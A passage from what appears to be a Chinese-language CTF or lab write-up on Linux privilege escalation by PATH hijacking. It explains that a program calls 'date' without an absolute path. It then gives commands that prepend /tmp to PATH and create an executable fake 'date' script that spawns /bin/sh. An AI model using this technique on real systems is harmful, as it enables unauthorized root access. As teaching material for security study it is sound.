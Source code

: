 前面是调用绝对路径，后面则是相对路径

回到这个题目，

[![](assets/1706771526-0da92ce1fc97db09a2e6b24ff43214fa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222911-c4d74134-beb2-1.png)

可以看到这里调用了date,但是没有绝对路径，所以我们可以创建一个date文件，之后再环境变量中添加这个路径即可

先看一下环境变量

[![](assets/1706771526-254424e275f2a4dbbf87912fe52aed47.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222914-c724e32e-beb2-1.png)

tmp目录是所有用户可读写的，可以将date文件创建在tmp下，然后将tmp添加到环境变量中

```plain
export PATH=/tmp:$PATH
```

之后创建一个date的文件

```plain
#!/bin/sh
/bin/sh
```

```plain
chmod +x date
```

[![](assets/1706771526-1bf578f841710fb04e7f7fc40566c99d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222920-ca3382a0-beb2-1.png)

